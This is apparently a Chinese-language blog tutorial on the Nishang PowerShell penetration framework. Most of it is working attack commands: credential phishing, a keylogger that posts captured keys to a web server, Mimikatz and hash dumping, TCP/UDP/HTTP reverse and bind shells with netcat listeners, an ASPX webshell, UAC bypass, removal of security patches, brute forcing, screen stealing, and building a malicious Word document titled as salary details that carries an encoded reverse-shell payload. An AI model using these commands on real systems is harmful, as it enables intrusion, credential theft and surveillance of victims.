开始之前，先放出个下载地址!
下载地址:https://github.com/samratashok/nishang
1.简介
Nishang是一款针对PowerShell的渗透工具。说到渗透工具，那自然便是老外开发的东西。国人开发的东西，也不是不行，只不过不被认可罢了。不管是谁开发的，既然跟渗透有关系，那自然是对我们有帮助的，学习就好。来源什么的都不重要。总之，nishang也是一款不可多得的好工具。非常的好用。
2.简单的安装与问题处理
先到github上去下载nishang，可以使用git命令直接下载，如果没有装的话下载zip文件，解压之后就可以开始我们的学习之旅了。
导入之前加一句，nishang的使用是要在PowerShell 3.0以上的环境中才可以正常使用。也就是说win7下是有点小问题的。因为win7下自带的环境是PowerShell 2.0

如果大家不知道自己的PowerShell环境是多少的版本。可以使用Get-Host命令来查看当前的版本。建议使用windows 10测试
既然是PowerShell框架，那自然是要导入的，然而，导入的时候还是会碰到一些比较麻烦的问题。对PowerShell比较熟悉的，看一眼就知道是什么问题，但是不知道的就一脸蒙，百度都不知道怎么百度。比如说：
我们在导入的时候经常会碰到的问题，（不只是nishang）

出现了报错，我一直都不知道怎么办的，没办法，只能用过远程文件下载来进行本地权限绕过。
解决方法:
PowerShell默认的执行策略是Restricted，但是Restricted是不允许运行任何脚本的。你在PowerShell执行Get-ExecutionPolicy命令来查看默认的策略组。我们需要修改策略组，在PowerShell下执行Set-ExecutionPolicy remotesigned。再次导入，就导入成功了。（警告不需要理会）

因为警告不相信导入成功的，可以继续执行命令来进一步验证。

nishang的命令都被列出来了。执行一道命令行Get-Information。可以列出本机的信息


3.目录结构

有经验的童鞋看一眼就知道这个目录是怎么玩的了，虽然英文水平不怎么滴，但是晚了这么久看到这些目录还是有一些熟悉感的

跟大家说个事情，150分的英语卷子，我得了27分。上面这些是我用google翻译加蒙的。这都不重要。继续往后看吧。主要是他后续的功能以及命令的使用。当导入nishang.psm1的时候，所有的模块都直接可以被PowerShell读到。当然，在渗透过程中，肯定不能直接把nishang的整个目录赋值到人家的服务器上。远程下载的时候，了解目录结构对我们寻找文件位置是很有帮助的~~
4.操作方法
忍不住的小伙子们，来来来，拿起纸和笔，记笔记，这是重点。
4.1信息搜集
看上面的目录结构图，就知道哪里去找要用的东西了。挑一些好用的模块来说
4.1.1 Check-VM
看名字就知道是干嘛的了，检测该主机是不是虚拟机

程序给了答复，说本机器就是一个虚拟机。
4.1.2 Invoke-CredentialsPhish
这个脚本怎么说，说是欺骗用户，让用户输入密码，但是我觉得吧，这就是个十足的流氓。

为啥说是流氓了？不给正确密码就不给关，你说流氓不，反正关不掉，只能强制干掉进程。当然，如果成功了，还是很好用的

这样还是可以的，哈~
4.1.3 Copy-VSS
Copy-VSS [文件地址] –默认是在当前文件夹下面
Copy-VSS [文件地址] -DestinationDir C:temp –保存文件到指定文件下
4.1.4 FireBuster FireListener
内网扫描，很洋气的扫描器，本地开了监听，然后远程传送数据
FireListener -PortRange 130-150 FireBuster 192.168.12.107 130-150 -Verbose
4.1.5 Get-WLAN-Keys
由于本机器是台式电脑，并没有无线网卡，所以不做演示。
4.1.6 Keylogger键盘记录
讲真，从来没有见过这么牛的键盘记录模块，这个模块有必要看一下HELP深究一下,真的牛。
Get-Help .Keylogger.ps1 -full

一条一条说：
1：直接执行，他会显示

之后，默认在Temp目录下生成一个key.log文件
2：就是一句话命令行
-CheckURL去检查设置的URL页面中有没有 -MagicString后的字符串，有的话停止，没有的话继续。。
3 : 将记录的信息以POST形式发送到WEB服务器上。
4：电脑重启之后，继续监听。。
当监听完成后，需要用Utility目录下的Parse_Keys来解析key文件
Parse_Keys "C:UsersxxxAppDataLocalTempkey.log" "c:test.txt"

总之-MagicString这后面就是密码
-CheckURL 也一定要写自己的，要不停不下来了
没有设置persist的童鞋，关掉当前PowerShell，即刻停止
4.1.7 抓取用户的明文密码
Invoke-Mimikatz 不需要解释的神器

4.1.8 HASH获取
Get-PassHashes

4.1.9 获取用户的密码提示信息
Get-PassHints

感觉没什么用，但是别小看这个功能，有的时候可以根据提示信息来生成密码文件，大大提高爆破的成功率。还有的人会将明文密码记录在这个提示信息中。我曾经就是。。
4.2.0各式各样的反弹
既然说是神器，那自然有牛的一面，各式各样的shell，任由你反弹，跟msf一样。
###TCP的shell
既然TCP，那就有正反向链接，先来反向链接（需要NC）
反向链接：
NC下执行 : nc -lvp 3333
在PowerShell下执行：Invoke-PowerShellTcp -Reverse -IPAddress 192.168.12.110 -Port 3333

正向链接:
PowerShell下执行:Invoke-PowerShellTcp -Bind -Port 3333
NC下执行:nc -nv 192.168.12.103 3333

###UDP 的Shell
只是单纯的将Invoke-PowerShellTcp改为Invoke-PowerShellUdp，其他命令。之后就是nc的命令改变了
正向连接:nc -nvu 192.168.12.103 3333
反向连接:nc -lup 3333
一波题外话，看不懂nc命令的童鞋：https://www.explainshell.com
可以到这里，命令可以解析，什么都可以，不止是nc，linux命令都行

就是都是英文，不过比较简单了
###HTTP/HTTPS的shell
HTTP:Invoke-PoshRatHttp -IPAddress 192.168.12.103 -Port 3333 HTTPS:Invoke-PoshRatHttps -IPAddress 192.168.12.103 -Port 3333
执行完之后会生成一道命令，HTTP和HTTPS一样，这里我只演示是HTTP

将这道命令拖入cmd中执行，之后命令行消失，在本机Powershell下返回了一个会话

4.3 webshell
存放于nishangAntak-WebShell目录下，就是一个ASPX的大马，但是命令行是PowerShell，比单纯的cmd强大很多。功能齐全，日aspx的站必备的东西

同样需要账号密码，上传下载，无所不能。
4.4 提权
渗透过程中，这里应该是使用最多的地方了。
4.4.1 尝试本地权限提升
Enable-DuplicateToken
这个脚本在我们具有一定权限的时候，可以帮助帮助我们获得系统权限。
4.4.2 Bypass UAC
Invoke-PsUACme 看名字就知道是干嘛的了。绕过UAC吗~，Nishang中给出的方法太全面了，GET-HELP来看看帮助信息

实例一: 使用Sysprep方法和默认的Payload执行
实例二: 使用oobe方法跟默认的payload执行
实例三: 使用oobe方法跟自制payload执行
这个模块用的是UACME项目的DLL来Bypass UAC。所以，方法对照表

这只是官方给的例子，回过头来看一眼上面的参数信息。

-Payloadpath指定一个payload路径
-CustomDll64
指定一个dll文件，后两位代表系统位数
-CustomDll32
尝试本地Bypass UAC:

4.4.3 删除补丁
删除补丁，这是我见过最`厉害`的脚本，没有之一。如此骚气！
Remove-Update

实例一: 删除全部补丁
实例二: 删除全部的安全补丁
实例三: 删除指定的补丁
这是删除之前的补丁情况
尝试删除第一个补丁

成功删除了第一个补丁。
4.5端口扫描，爆破
4.5.1： 端口扫描
来详细说明下个个参数
可以使用 Get-Help Invoke-PortScan -full 查看帮助信息

-StartAddress 开始的IP地址
-EndAddress 结束的IP地址
-ResolveHost 是否解析主机名
-ScanPort要不要进行端口扫描
-Port 要扫描的端口（默认很多，看上图）
-TimeOut 超时时间
对我本地局域网进行扫描:
Invoke-PortScan -StartAddress 192.168.250.1 -EndAddress 192.168.250.255 -ResolveHost
扫描中:

扫描结束:

4.5.2 弱口令爆破
Invoke-BruteForce
之前先说命令参数
-ComputerName 对应服务的计算机名
-UserList 用户名字典
-PasswordList 密码字典
-Service 服务（默认为：SQL）
-StopOnSuccess 匹配一个后停止
-Delay 延迟时间

有了上面的说明，这里看到应该很清楚了。不在做过多的解释。
4.6 嗅探
内网嗅探，动静太大了，但是，实在没办法的时候，不得不说，这是一个办法。
在靶机上执行:Invoke-Interceptor -ProxyServer 192.168.250.172 -ProxyPort 9999
监听机器上执行:netcat -lvvp 9999


4.7 屏幕窃取
Show-TargetScreen
屏幕窃取，一样正反向通吃
-IPAddress 后面加IP地址（反向链接需要）
-Port 加端口
-Bind 正向连接
反向链接窃取屏幕
靶机:Show-TargetScreen -Reverse -IPAddress 192.168.250.172 -Port 3333
攻击机:netcat -nlvp 3333 | netcat -nlvp 9999
之后访问攻击机器的9999端口，就可以窃取到屏幕了

正向连接窃取屏幕
靶机执行:Show-TargetScreen -Bind -Port 3333
攻击机执行:netcat -nv 192.168.250.37 3333 | netcat -lnvp 9999
之后同样，访问本机的9999端口，就能正常访问了。
4.8 Client
Nishang可以生成各式各样的客户端。类型大概有

这么多类型全都可以生成。选择一种来说，其他的方法都是类似的。
打开nishangShellsInvoke-PowerShellTcpOneLine.ps1这个文件，复制第三行的内容。可以看到中间有一个TCPClient的参数，这里就是远程连接的地址了

更改这个地址和端口即可，之后进入命令行执行
Invoke-Encode -DataToEncode '你的代码' -IsString -PostScript

执行完成之后会在当前目录下生成两个文件。一个是encoded.txt 另一个是encodedcommand.txt。之后执行
Out-Word -PayloadScript .encodedcommand.txt
就可以在我们当前文件夹下生成一个名为Salary_Details.doc的doc文件。之后使用nc监听就好
说完了操作，回过头来看看命令行参数
-Payload 后面直接加payload，但是注意引号的闭合
-PayloadURL 传入远程的payload进行生成
-PayloadScript 指定本地的脚本进行生成
-Arguments 之后加要执行的函数。（payload之中有的函数）
-OutputFile 输出的文件名
-WordFileDir 输出的目录地址
-Recurse 在WordFileDir中递归寻找Word文件
-RemoveDocx 创建完成后删除掉原始的文件
5.总结
看完之后肯定一脸懵逼，这都是啥。这么复杂的语法，没办法，针对PowerShell的工具语法相对而言都比较复杂。而且，并没有讲解nishang的后门模块，个人觉得不是那么好用。还有一些反弹技巧并没有详细介绍，比如说什么DNS反弹，ICMP反弹，WMI反弹。
有兴趣的朋友可以自行研究，每一款工具针对不同的环境都能给我们带来意想不到的效果。不用归不用,但是到万不得已用的时候，才是最恶心的，艺多不压身嘛~
在研究过程中又碰到问题的，点我头像给我留言，我看到的话会尽量帮忙的~